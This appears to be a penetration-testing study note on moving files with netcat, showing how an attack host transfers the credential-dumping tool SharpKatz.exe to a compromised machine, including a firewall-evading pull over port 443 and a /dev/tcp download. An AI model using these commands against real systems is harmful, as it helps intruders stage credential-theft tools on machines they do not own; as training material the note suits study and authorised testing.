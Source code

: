 ```yaml
---
title: File_Transfer_Netcat
tags:
  - netcat
  - file_sharing
created: 2025-02-25
---
```

# Description
`Netcat` is a computer networking utility for reading from and writing to network connections using TCP or UDP, which means that we can use it for file transfer operations.

## File Transfer with Netcat
The target or attacking machine can be used to initiate the connection, which is helpful if a firewall prevents access to the target.
### Sending File
#### Target host listening on port 8000
```sh
nc -l -p 8000 > SharpKatz.exe
```

#### Attack host sending file to compromised machine
```sh
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

### Sending File as Input to Netcat
Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections.
####  Attack host listening on port 443
```sh
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Compromised Machine - Connecting to Receive File
```sh
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

#### Compromised Machine - Using /dev/tcp to Receive File
```sh
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe